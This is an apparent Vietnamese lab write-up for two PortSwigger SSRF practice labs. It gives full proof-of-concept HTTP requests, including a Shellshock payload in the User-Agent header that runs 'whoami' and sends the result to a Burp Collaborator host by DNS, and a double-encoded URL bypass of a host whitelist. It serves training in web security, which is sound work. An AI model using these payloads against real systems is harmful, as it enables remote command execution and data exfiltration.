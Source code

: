 ## SSRF Expert Lab

### Lab: Blind SSRF with Shellshock exploitation

- Sử dụng `Burp Collaborator` + `shellshock`

    ```
    () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
    ```

- Brute dải ip `192.168.0.X/24`, poll về `Burp Collaborator`

    - PoC

        ```
        GET /product?productId=1 HTTP/2
        Host: 0a4100a803d9d75d80374e1200ee002d.web-security-academy.net
        Cookie: session=7GkfQCYn4FAuKMTR2yNy7OLkOaopCQQU
        Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
        Sec-Ch-Ua-Mobile: ?0
        Sec-Ch-Ua-Platform: "Windows"
        Accept-Language: en-US,en;q=0.9
        Upgrade-Insecure-Requests: 1
        User-Agent: () { :; }; /bin/nslookup $(whoami).c8l36qt5b2ijpw0w9hz1956wcnie64ut.oastify.com
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Referer: http://192.168.0.1:8080/
        Accept-Encoding: gzip, deflate, br
        Priority: u=0, i
        ```


### Lab: SSRF with whitelist-based input filter

- Thử payload SSRF cơ bản ở phần check stockapi nhưng bị chặn

    ```text
    External stock check host must be stock.weliketoshop.net
    ```

    - Thử bypass bằng `#`, encode 2 lần để thành `%2523`


- PoC
    ```
    POST /product/stock HTTP/2
    Host: 0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Cookie: session=koNwfKAKsd1Ys3UrpUjZf0WdTR3LeEtS
    Content-Length: 54
    Sec-Ch-Ua-Platform: "Windows"
    Accept-Language: en-US,en;q=0.9
    Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
    Content-Type: application/x-www-form-urlencoded
    Sec-Ch-Ua-Mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    Accept: */*
    Origin: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: https://0a7e000f0485708680176cd9008f0081.web-security-academy.net/product?productId=1
    Accept-Encoding: gzip, deflate, br
    Priority: u=1, i

    stockApi=http://localhost%2523@stock.weliketoshop.net/
    ```

    ![alt text](image.png)

    - Xóa carlos

    ![alt text](image-1.png)